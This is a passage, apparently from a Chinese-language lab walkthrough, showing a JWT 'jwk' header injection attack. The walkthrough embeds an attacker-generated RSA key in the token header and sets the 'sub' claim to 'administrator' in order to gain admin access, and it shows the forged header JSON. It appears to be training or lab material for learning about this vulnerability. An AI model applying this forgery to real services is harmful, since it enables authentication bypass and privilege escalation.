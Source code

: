 选择攻击，添加进入`JWK`

![image-20250519153622309](./img/image-20250519153622309.png)

将`payload`中的sub参数改成`administrator`

修改后的头部

```json
{
    "kid": "1e00189d-3bc9-49a5-9605-03f0df893a5c",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "1e00189d-3bc9-49a5-9605-03f0df893a5c",
        "n": "jkFNpj5eafWczBE5jRkF4hIzErrMk9o7iYUMcF1DTzS_XkF7NMP-0PIMH4kgNeCMu3UorWsQV3XZZA8KzujVEjKxRBPMDsfQh5FKpqUl9QhFtlBkw73Ej1DCH3xtDZMKiPNTMOkWbe811c_UJ9a9Hx_JkXhCvMruOIRl9mKwTt-teKRquGLuvmRxiSvPxnL2LPU5Pf4mJhcGYEsEobI6kjlIXbeQNr1esFmk3IvBrMGEXj_xpWwWfQ-iiP8Asiur5yAbHNMk7gLyEGY7ajwtlUH0XI2k4aECC3Izx6FGZuF5lvSCUAxnHWD6zPT7jXX6GIWStjY0trnpUKr4SZCmKQ"
    }
}
```

